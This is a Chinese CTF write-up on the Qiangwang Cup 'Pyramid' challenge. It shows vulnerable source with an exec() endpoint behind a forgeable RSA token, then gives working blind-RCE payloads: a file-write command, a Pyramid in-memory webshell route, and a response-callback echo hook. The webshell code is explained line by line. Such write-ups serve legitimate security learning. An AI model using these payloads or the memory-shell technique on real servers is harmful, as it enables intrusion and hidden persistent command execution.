






# 对pyramid框架无回显的学习---以一道ctf题目为例-先知社区

> **来源**: https://xz.aliyun.com/news/16090  
> **文章ID**: 16090

---

## 强网杯决赛Pyramid

题目源码  
app.py

```
from wsgiref.simple_server import make_server
from pyramid.config import Configurator
from pyramid.events import NewResponse
from pyramid.response import Response
import util

users = []
super_user = ["admin"]
default_alg = "RS"


def register_api(request):
    try:
        username = request.params['username']
        if username in super_user:
            return Response("Not Allowed!")
        password = request.params['password']
    except:
        return Response('Please Input username & password', status="500 Internal Server")
    data = {"username": username, "password": password}
    users.append(data)
    token = util.data_encode(data, default_alg)
    return Response("Here is your token: "+ token)


def register_front(request):
    return Response(util.read_html('register.html'))


def front_test(request):
    return Response(util.read_html('test.html'))


def system_test(request):
    try:
        code = request.params['code']
        token = request.params['token']
        data = util.data_decode(token)
        if data:
            username = data['username']
            print(username)
            if username in super_user:
                print("Welcome super_user!")
            else:
                return Response('Unauthorized', status="401 Unauthorized")
        else:
            return Response('Unauthorized', status="401 Unauthorized")

    except:
        return Response('Please Input code & token')
    print(exec(code))
    return Response("Success!")


if __name__ == '__main__':
    with Configurator() as config:
        config.add_route('register_front', '/')
        config.add_route('register_api', '/api/register')
        config.add_route('system_test', '/api/test')
        config.add_route('front_test', '/test')
        config.add_view(system_test, route_name='system_test')
        config.add_view(front_test, route_name='front_test')
        config.add_view(register_api, route_name='register_api')
        config.add_view(register_front, route_name='register_front')
        app = config.make_wsgi_app()

    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()

```

util.py

```
import base64
import json
import uuid
from Crypto.PublicKey import RSA
from Crypto.Signature import pkcs1_15
from Crypto.Hash import SHA256

import hashlib

secret = str(uuid.uuid4())


def generate_keys():
    key = RSA.generate(2048)
    private_key = key.export_key()
    public_key = key.publickey().export_key()
    return private_key, public_key


def sign_data(private_key, data):
    rsakey = RSA.import_key(private_key)
    # 将JSON数据转换为字符串
    data_str = json.dumps(data)
    hash_obj = SHA256.new(data_str.encode('utf-8'))
    signature = pkcs1_15.new(rsakey).sign(hash_obj)
    return signature


def verify_signature(secret, data, signature, alg):
    if alg == 'RS':
        rsakey = RSA.import_key(secret)
        # 将JSON数据转换为字符串
        data_str = json.dumps(data)
        hash_obj = SHA256.new(data_str.encode('utf-8'))
        try:
            pkcs1_15.new(rsakey).verify(hash_obj, signature)
            print("Signature is valid. Transmitted data:", data)
            return True
        except (ValueError, TypeError):
            print("Signature is invalid.")
            return False
    elif alg == 'HS':
        hash_object = hashlib.sha256()
        data_bytes = (json.dumps(data) + secret.decode()).encode('utf-8')
        print(data_bytes)
        hash_object.update(data_bytes)
        hex_dig = hash_object.hexdigest()
        if hex_dig == signature.decode():
            return True
    else:
        return False


def data_encode(data, alg):
    if alg not in ['HS', 'RS']:
        raise "Algorithm must be HS or RS!"
    else:
        private_key, public_key = generate_keys()
        if alg == 'RS':
            signature = sign_data(private_key, data)
            data_bytes = json.dumps(data).encode('utf-8')
            encoded_data1 = base64.b64encode(data_bytes)  # data
            encoded_data2 = base64.b64encode(signature)  # signature
            print(encoded_data2)
            encoded_data3 = base64.b64encode(alg.encode('utf-8'))  # alg
            encoded_data4 = base64.b64encode(public_key)  # public_key
            encoded_data = encoded_data1.decode() + '.' + encoded_data2.decode() + '.' + encoded_data3.decode() + '.' + encoded_data4.decode()
            print("The encoded data is: ", encoded_data)
            return encoded_data
        else:
            hash_object = hashlib.sha256()
            data_bytes = (json.dumps(data) + secret).encode('utf-8')
            inputdata = json.dumps(data).encode('utf-8')
            hash_object.update(data_bytes)
            hex_dig = hash_object.hexdigest()
            signature = base64.b64encode(hex_dig.encode('utf-8'))
            encoded_data1 = base64.b64encode(inputdata)  # data
            encoded_data3 = base64.b64encode(alg.encode('utf-8'))  # alg
            encoded_data = encoded_data1.decode() + '.' + signature.decode() + '.' + encoded_data3.decode()
            print("The encoded data is: ", encoded_data)
            return encoded_data


def data_decode(encode_data):
    try:
        all_data = encode_data.split('.')
        sig_bytes = all_data[1].replace(' ', '+').encode('utf-8')
        print(sig_bytes)
        data = base64.b64decode(all_data[0].replace(' ', '+')).decode('utf-8')
        json_data = json.loads(data)
        signature = base64.b64decode(sig_bytes)
        alg = base64.b64decode(all_data[2]).decode('utf-8')
        key = secret
        if len(all_data) == 4:
            key_bytes = all_data[3].replace(' ', '+').encode('utf-8')
            key = base64.b64decode(key_bytes)  # bytes
        # 验证签名
        is_valid = verify_signature(key, json_data, signature, alg)
        if is_valid:
            return json_data
        else:
            return False
    except:
        raise "something error"


def read_html(filname):
    with open('./static/' + filname, 'r', encoding='utf-8') as file:
        # 读取文件内容
        html_content = file.read()
    return html_content

```

## rce的代码

```
def system_test(request):
    try:
        code = request.params['code']
        token = request.params['token']
        data = util.data_decode(token)
        if data:
            username = data['username']
            print(username)
            if username in super_user:
                print("Welcome super_user!")
            else:
                return Response('Unauthorized', status="401 Unauthorized")
        else:
            return Response('Unauthorized', status="401 Unauthorized")

    except:
        return Response('Please Input code & token')
    print(exec(code))
    return Response("Success!")

```

## token伪造

首先我们得伪造一个admin，先随便注册一个账号看看token  
  
附带公钥信息  
远程存在沙箱 本地通的 可以直接用它给的源码生成admin的token  
其实很简单，只需要注释两行代码即可  
  
然后本地再注册admin账号就不会有限制了，并且会返回一个token  
  
拿到这个token就可以直接用了  
但是这个是无回显的，所以有三种方法，一个是写文件，另外一个就是打内存马,还有就是利用request.add\_response\_callback 钩子函数进行回显

## 写文件

payload：

```
import os;os.system("echo `whoami` >> ./static/test.html")

```

这个比较常见大家都会

## 内存马

payload:

```
exec("import sys;config = sys.modules['__main__'].config;app=sys.modules['__main__'].app;print(config);config.add_route('shell', '/shell');config.add_view(lambda request: Response(__import__('os').popen(request.params.get('1')).read()),route_name='shell');app = config.make_wsgi_app()")

```

这个是Juvline师傅给的，新框架的内存马，这个就是在config里面操作  




## 对内存马进行分析

```
import sys

from pyramid.response import Response

config = sys.modules['__main__'].config
app=sys.modules['__main__'].app;print(config)
config.add_route('shell', '/shell')
config.add_view(lambda request: Response(__import__('os').popen(request.params.get('1')).read()),route_name='shell')
app = config.make_wsgi_app()

```

```
import sys
这行代码导入了Python的标准库模块sys，用于访问与Python解释器紧密相关的变量和函数。

```

```
config = sys.modules['__main__'].config

这当前运行环境中存在名为config的对象，并且它是全局命名空间的一部分（即位于__main__模块中）。config对象通常用于存储应用程序配置信息，在Pyramid框架中，它还负责定义应用的行为，如路由规则等。

```

```
app = sys.modules['__main__'].app

类似地，app也被认为是在全局命名空间中存在的一个变量，代表了WSGI兼容的应用实例。WSGI(Web Server Gateway Interface)是一种用于Python web应用和服务之间通信的标准接口。

```

```
print(config)

这行代码简单地打印出config对象的内容，为了更好调试，检查其是否正确加载。

```

```
config.add_route('shell', '/shell')

此行调用了config对象的方法add_route，用于向Web应用添加一个新的URL路由。这里的路由名称为'shell'，对应的路径是'/shell'。这意味着当用户访问这个特定的URL时，会触发与之关联的视图逻辑。

```

```
config.add_view(lambda request: Response(__import__('os').popen(request.params.get('1')).read()), route_name='shell')

这是关键的一行，它定义了一个匿名函数（lambda表达式），该函数接受一个request参数并返回一个HTTP响应。在这个过程中，它使用了__import__('os').popen(...)来执行操作系统命令。更具体地说，它从请求参数中获取键为'1'的值，并将其作为命令传递给系统shell执行。然后，它读取命令执行的结果，并通过Response对象将其作为HTTP响应体发送回客户端。

```

```
app = config.make_wsgi_app()

最后，这行代码调用了config上的make_wsgi_app方法，创建了一个新的WSGI应用实例，并将其赋值给app变量。这一步骤完成了应用的构建过程。

```

## request.add\_response\_callback 钩子函数进行回显


```
print(exec("request.add_response_callback(lambda request, response:setattr(response, 'text', getattr(getattr(__import__('os'),'popen')('whoami'),'read')()))"));

```


